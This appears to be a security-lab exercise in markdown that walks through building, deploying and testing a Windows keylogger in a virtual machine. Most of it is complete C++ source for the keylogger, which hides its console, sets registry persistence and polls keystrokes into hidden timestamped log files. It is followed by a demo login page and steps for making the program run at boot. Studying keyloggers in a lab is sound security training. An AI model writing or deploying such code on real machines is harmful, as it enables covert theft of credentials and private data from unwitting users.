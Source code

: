 # Write A Standalone Keylogger
A keylogger is a type of malware used in cyberattacks to steal sensitive information by recording keystrokes on a victim's computer. Often installed covertly through phishing emails, it captures login credentials and personal data for attackers to misuse


## References
- [Keystroke Logging](https://en.wikipedia.org/wiki/Keystroke_logging) by Wikipedia
- [GetAsyncKeyState](https://docs.microsoft.com/en-us/windows/desktop/api/winuser/nf-winuser-getasynckeystate) by Microsoft
- [Keylogger](https://github.com/shubhangi-singh21/Keylogger) by shubhangi-singh21 on GitHub


## Tasks
- Setup a Windows VM
- Write a custom keylogger program with the following capabilities
  - The program starts executing when the system boots
  - The program runs as a background process without affecting any foreground processes
  - The program logs all user keystrokes in hidden files on the same disk
  - The program must use minimal resources to avoid detection
- Keylogger Creation Guidelines
  - You can use Windows APIs in your program
  - Use a programming language of your choice
  - Compile the program into a binary for deployment
- Deploy the keylogger binary in your VM
- Configure the keylogger to execute when the system starts
- Open a web browser and input a fictional username and password into a login form


## Benchmarks
- Validate that your keylogger starts at system boot time
- Validate that your keylogger records all keystrokes in hidden files
- Validate that your keylogger runs as a background process (you can view the active process listing in 'Task Manager')


## Practical Approach
1. Save the following C++ program and compile it into a binary file called `keylogger.exe` to be used in a Windows 10 VM
   ```
    #include <iostream>
    #include <windows.h>
    #include <ctime>      // For timestamp
    #include <sstream>    // For constructing filename
    #include <fstream>    // For file operations
    #include <string>     // For string manipulation
    
    using namespace std;
    
    void AddToStartup() {
        // Get the current executable path using the wide-character version of GetModuleFileName
        wchar_t filePath[MAX_PATH];
        GetModuleFileNameW(NULL, filePath, MAX_PATH);  // Get the path of the current executable
    
        HKEY hKey;
        // Create or open the registry key for startup (HKEY_CURRENT_USER means it will only affect the current user)
        LONG createStatus = RegCreateKeyW(HKEY_CURRENT_USER, L"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", &hKey);
    
        if (createStatus == ERROR_SUCCESS) {
            // Set the registry value to add the executable to the startup list
            LONG status = RegSetValueExW(hKey, L"MyKeylogger", 0, REG_SZ, (BYTE*)filePath, (wcslen(filePath) + 1) * sizeof(wchar_t));
            
            if (status == ERROR_SUCCESS) {
                cout << "Keylogger successfully added to startup!" << endl;
            } else {
                cerr << "Error setting registry value!" << endl;
            }
    
            // Close the registry key handle
            RegCloseKey(hKey);
        } else {
            cerr << "Error creating/opening registry key!" << endl;
        }
    }
    
    string CreateDynamicLogFile() {
        // Generate a dynamic file name based on timestamp
        time_t now = time(NULL);
        struct tm* localTime = localtime(&now);
    
        stringstream filename;
        filename << "log_"
                 << localTime->tm_year + 1900 << "_"
                 << (localTime->tm_mon + 1) << "_"
                 << localTime->tm_mday << "_"
                 << localTime->tm_hour << "_"
                 << localTime->tm_min << "_"
                 << localTime->tm_sec << ".txt"; // Second
    
        return filename.str();
    }
    
    void HideLogFile(const string& filename) {
        DWORD attributes = GetFileAttributes(filename.c_str());
        if (attributes == INVALID_FILE_ATTRIBUTES) {
            cerr << "Error getting file attributes for " << filename << endl;
            return;
        }
    
        // Set file attributes to hidden
        if (SetFileAttributes(filename.c_str(), attributes | FILE_ATTRIBUTE_HIDDEN)) {
            cout << "Successfully set file to hidden: " << filename << endl;
        } else {
            cerr << "Failed to set file to hidden: " << filename << endl;
        }
    }
    
    int Save(int _key, const char* file) {
        ofstream OUTPUT_FILE(file, ios::app);
        if (!OUTPUT_FILE.is_open()) {
            cerr << "Error opening file!" << endl;
            return -1;
        }
    
        // Save key inputs to file
        switch (_key) {
            case VK_SHIFT: OUTPUT_FILE << "[SHIFT]"; break;
            case VK_BACK: OUTPUT_FILE << "[BACKSPACE]"; break;
            case VK_LBUTTON: OUTPUT_FILE << "[L_CLICK]"; break;
            case VK_RBUTTON: OUTPUT_FILE << "[R_CLICK]"; break;
            case VK_RETURN: OUTPUT_FILE << "[ENTER]"; break;
            case VK_TAB: OUTPUT_FILE << "[TAB]"; break;
            case VK_ESCAPE: OUTPUT_FILE << "[ESCAPE]"; break;
            case VK_CONTROL: OUTPUT_FILE << "[CTRL]"; break;
            case VK_MENU: OUTPUT_FILE << "[ALT]"; break;
            case VK_CAPITAL: OUTPUT_FILE << "[CAPS LOCK]"; break;
            case VK_SPACE: OUTPUT_FILE << "[SPACE]"; break;
            default: OUTPUT_FILE << (char)_key;
        }
    
        OUTPUT_FILE.close();
        HideLogFile(file);
    
        return 0;
    }
    
    int main() {
        // Hide the console window
        FreeConsole();
    
        // Copy the executable to the Startup folder (ensures persistence)
        AddToStartup(); // Using the updated AddToStartup function
    
        // Create and hide the log file
        string logFilename = CreateDynamicLogFile();
        cout << "Log file created: " << logFilename << endl;
    
        ofstream logFile(logFilename.c_str());
        if (logFile.is_open()) {
            logFile.close();
        } else {
            cerr << "Error creating log file!" << endl;
            return -1;
        }
    
        HideLogFile(logFilename);
    
        char i;
        while (true) {
            Sleep(10); // Reduce CPU usage
            for (i = 8; i <= 255; i++) {
                if (GetAsyncKeyState(i) == -32767) {
                    Save(i, logFilename.c_str()); // Save key presses to the log file
                }
            }
        }
    
        return 0;
    }
   ```
2. Save the following HTML file as `login.html` for the purpose of inputting a fictional username and password in the login form
   ```
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Demo Login Page</title>
    </head>
    <body>
        <h1>Login</h1>
        <form>
            <label for="username">Username:</label><br>
            <input type="text" id="username" name="username"><br><br>
            <label for="password">Password:</label><br>
            <input type="password" id="password" name="password"><br><br>
            <button type="submit">Login</button>
        </form>
    </body>
    </html>
   ```
3. Execute `keylogger.exe` with admin privileges. It will now run as a process in the Task Manager
   ![image](https://github.com/user-attachments/assets/831ccbab-c58a-46ba-b90d-09afd2b7fd5f)

5. Reboot the Windows 10 VM. Since the keylogger executable creates an entry in the registry at `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`, it will autorun at startup
   ![image](https://github.com/user-attachments/assets/9dc68225-187c-4afe-a4d8-dc935422cc7a)
   This can also be found in the Startup tab in Task Manager. Note that multiple registry entries in different registry locations will create multiple startup instances <br/>
   ![image](https://github.com/user-attachments/assets/1a3117e6-17b0-4727-bc1c-583ef2b79968)
   <br/>
   If rebooting the VM does not cause the keylogger to autorun on startup, a manual fix is to press `Win + R` key, and enter `shell:startup`. This will bring you to the folder that stores programs to run on startup. Create a shortcut of `keylogger.exe` and save it here
   ![image](https://github.com/user-attachments/assets/e55bf18f-e6b2-4b26-bbd2-d00a8888b556)
7. Open `login.html` in a web browser. Show that the keylogger records all keystrokes in hidden files
   ![image](https://github.com/user-attachments/assets/265cc2bb-eb34-4b51-b37f-e6c792f2c447)
   ![image](https://github.com/user-attachments/assets/08b3b759-fb9a-4375-b011-94c30f203111)


   
